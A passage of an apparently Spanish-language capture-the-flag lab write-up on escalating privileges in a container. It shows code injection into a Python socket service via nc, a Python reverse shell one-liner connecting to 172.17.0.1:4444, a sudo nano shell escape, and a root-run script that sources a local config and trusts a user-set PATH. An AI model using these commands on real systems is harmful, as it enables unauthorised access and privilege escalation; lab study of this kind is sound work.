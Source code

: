 Ahora intentaremos ver la manera de explotar este binario: De primeras intentamos este pero no vemos la salida del comando:
```bash
echo "import os; os.system('id')" | nc -U /tmp/dev.sock

Executed.
```

Ahora probamos con **subproccess**
```bash
echo 'import subprocess; raise Exception(subprocess.check_output("id", shell=True).decode())' | nc -U /tmp/dev.sock

uid=1001(juan) gid=1001(juan) groups=1001(juan)
```

Ahora que podemos ejecutar comandos, Intentaremos ganar acceso como este usuario
```bash
echo "import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(('172.17.0.1',4444)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn('/bin/bash')" | nc -U /tmp/dev.soc
```

###### Usuario `[ Juan ]`:
Listandos los permisos para este usuario tenemes el binario **nano** con permisos
```bash
sudo -l

User juan may run the following commands on 2a90de3a9544:
    (alex) NOPASSWD: /bin/nano # Tenemos una via potencial para elevar privilegios:
```

Ejeucutamos el binario:
```bash
sudo -u alex /bin/nan # Primero ejecutamos este
ctrl + r # despues este
ctrl + x # despues este
reset; sh 1>&0 2>&0 # Por ultimo este
```

###### Usuario `[ Alex ]`:
Listando los permisos para este usuario tenemos:
```bash
sudo -l

User alex may run the following commands on 2a90de3a9544:
    (ALL) NOPASSWD: /usr/local/bin/report_tool
```

Revisando el codigo tenemos lo siguiente:
```bash
cat /usr/local/bin/report_tool

#!/bin/bash
#
# report_tool: muestra la fecha o, si existe override, usa tu PATH local

CONF_FILE="./report_tool.conf"
if [ -r "$CONF_FILE" ]; then
    source "$CONF_FILE"
    if [ -n "$OVERRIDE_PATH" ]; then
        export PATH="$OVERRIDE_PATH:$PATH"
    fi
fi
exec date
```
